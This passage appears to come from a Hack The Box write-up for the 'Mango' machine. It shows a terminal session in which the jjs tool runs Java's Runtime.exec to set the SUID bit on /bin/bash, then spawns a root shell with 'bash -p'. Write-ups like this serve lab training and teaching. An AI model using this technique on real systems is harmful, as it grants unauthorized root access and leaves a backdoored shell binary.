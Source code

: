 ![](/assets/images/htb-writeup-mango/root3.png)

Or, a faster way to get a root shell is to make bash SUID:

```
admin@mango:/home/admin$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
0
jjs> 
admin@mango:/home/admin$ /bin/bash -p
bash-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
```